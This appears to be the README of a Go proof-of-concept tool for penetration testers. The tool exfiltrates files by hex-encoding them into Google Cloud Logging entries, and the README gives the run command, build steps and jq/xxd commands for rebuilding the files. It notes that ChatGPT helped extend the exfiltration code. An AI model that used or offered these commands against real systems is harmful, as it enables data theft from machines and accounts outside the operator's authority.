  
## Usage
Proof of concept data exfil binary files to cloud logging via hex string
Dennis Chow dchow[AT]xtecsystems.com March 26, 2023
No expressed or implied warranty or liability.

## Changes
*Revision 2:
Pair programmed with ChatGPT v4 using the preview. Lots of enhancements including the 256KB quota 
limitation per payload entry in GCP. 
It also helped me add dynamic labeling each chunk as its uploaded and changing the logName so you're not confused when using multiple files and which order you need to reconstruct back on the jq and xxd side. 
My OLD mostly original code is under main.old and you can see main.rev1 as a intermediate area where ChatGPT started enhancing the code.*

Dependencies and environment setup

    go init gologexfil/main && go get cloud.google.com/logging

## Usage
`go run main.go --service-cred <YOUR-ACC-CRED.json> --project-id <YOUR-GCP-PROJECTID> --exfil-file <PATH/TO/FILE.foo>`

Note: In pen testing do a go build first go build -o gologexfil ./main.go ensure you have already go get cloud.google.com/logging

Retrieve your file in GCP Cloud Logging either by console and dump to file e.g. cat dump.txt | xxd -r -p > somefile.ext

Alternatively use jq e.g.:

    jq -r '.[] | {textPayload} | select(.textPayload != null) | .textPayload' ./downloaded-logs.json > payload-hexdump.text

### Screenshots
![enter image description here](https://raw.githubusercontent.com/dc401/gologexfil/main/reconstructed-exfilimage.png)

![enter image description here](https://raw.githubusercontent.com/dc401/gologexfil/main/log-textpayload-example.png)
